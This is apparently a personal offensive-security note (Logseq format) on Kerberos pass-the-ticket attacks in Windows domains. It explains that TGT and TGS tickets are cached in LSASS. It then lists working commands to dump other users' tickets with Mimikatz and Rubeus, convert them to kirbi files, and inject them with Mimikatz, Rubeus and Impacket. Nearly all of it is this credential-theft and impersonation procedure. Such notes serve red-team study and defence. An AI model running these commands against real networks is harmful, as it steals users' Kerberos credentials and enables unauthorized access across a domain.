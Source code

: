 public:: true

- A different approach is to exploit Kerberos authentication by abusing [*TGT*](((655a1fb1-47f5-446a-8813-e1a809f05a7b))) and [*TGS*](((655b6438-ee0f-4168-8a40-754613d2b793))). As [mentioned here](((6564d528-7b7b-4d33-b49c-36fe2d615343))), *TGT* and *TGS* for currently logged users are stored for future use. These tickets are also stored in LSASS, and we can use Mimikatz to interact with and retrieve our own tickets as well as the tickets of other local users.
	- #+BEGIN_NOTE
	  Stealing a [**TGS**](((655b6438-aa29-434b-bdf9-75e172e85fd1))) would allow us to access only particular resources associated with those tickets.
	  #+END_NOTE
	- #+BEGIN_NOTE
	  Stealing a [**TGT**](((655a4269-a509-429f-95ea-ce8b6582cf9c))) would allow us to request a TGS for specific resources we want to target within the domain. It can use to forge arbitrary TGS.
	  #+END_NOTE
- Harvest tickets
	- With [[Mimikatz]]
	  id:: 656869d9-c249-4f49-9165-bb1034fa8178
		- id:: 65686a95-2f8d-4c16-ba29-4ec6ce616cb4
		  ```
		  > sekurlsa::tickets /export
		  ```
	- With [[Rubeus]]
	  id:: 656869e0-2bb7-4449-868f-abbb5dda4be4
		- ```powershell
		  Rubeus.exe dump
		  ```
		- Since Rubeus returns base64 encoded tickets you can then save them in the **kirbi** format as follow
		  ```powershell
		  [IO.File]::WriteAllBytes("ticket.kirbi", [Convert]::FromBase64String("<base64_ticket>"))
		  ```
- Pass tickets to different tools
	- [[Impacket]]
		- ```bash
		  # Set the ticket for impacket use
		  export KRB5CCNAME=<TGT_ccache_file_path>
		  ```
	- [[Mimikatz]]
		- ```
		  > kerberos::ptt <ticket_kirbi_file>
		  ```
	- [[Rubeus]]
		- ```powershell
		  Rubeus.exe ptt /ticket:<ticket_kirbi_file>
		  ```